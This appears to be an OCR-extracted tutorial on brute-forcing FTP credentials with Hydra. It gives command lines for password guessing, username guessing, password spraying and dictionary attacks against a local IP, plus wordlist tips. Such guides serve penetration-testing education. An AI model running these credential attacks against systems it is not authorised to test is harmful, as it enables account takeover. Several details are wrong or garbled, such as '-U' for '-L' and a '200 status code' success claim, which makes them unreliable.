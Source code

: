 use a list of passwords and brute force on passwords on the host for ftp service.
```bash
hydra -l ox1df -P pass.txt 192.168.1.141 ftp
```

Here -l option is for username -P for password lists and host ip address for ftp service.

**To guess username for specific password**

**hydra -L -p**

You may have a valid password but no idea what username to use. Assume you have a password for specific ftp login. You can brute force the field with correct username wordlists to find the correct. You can use the `-L` option to specify user wordlists and the `-p` option to

specify a specific password.
```shell
hydra -L users.txt -p 123 192.168.1.141 ftp
```
Here, our wordlist is users.txt for which -L option is used, and password is 123 and for that -

p option is used over ftp.

### 3.2 Password Spraying

Password spraying is a technique where a few passwords are tested against multiple usernames to avoid account lockouts. The syntax is as follows:

```bash
$ hydra -L <userlist.txt> -P <passwordlist.txt> <target>

```
Use `<userlist.txt>` and `<passwordlist.txt>` as placeholders for your username and password lists there
you can use `crewl` to make wordlist from exisitng webstie 
`CeWL (Custom Word List generator) is a ruby app which spiders a given URL, up to a specified depth, and returns a list of words which can then be used for password crackers`

or else you can use `rockyou` defalut worldlist

# 3.3 Dictionary Attacks

To execute dictionary attacks, follow these steps:

```bash
$ hydra -l <username> -P <passwordlist.txt> <target>
```

**hydra -L -P**

if you lack either a username or password, you can start to a brute force attack on both parameters by utilizing a wordlist for both.Use the `-U` and `-P` parameters to execute this approach.
```python
hydra -L users.txt -P pass.txt 192.168.1.141 ftp
```
Users.txt is wordlist for username and pass.txt is wordlist for password and it will display the valid credentials for the host after when it `200 status code`
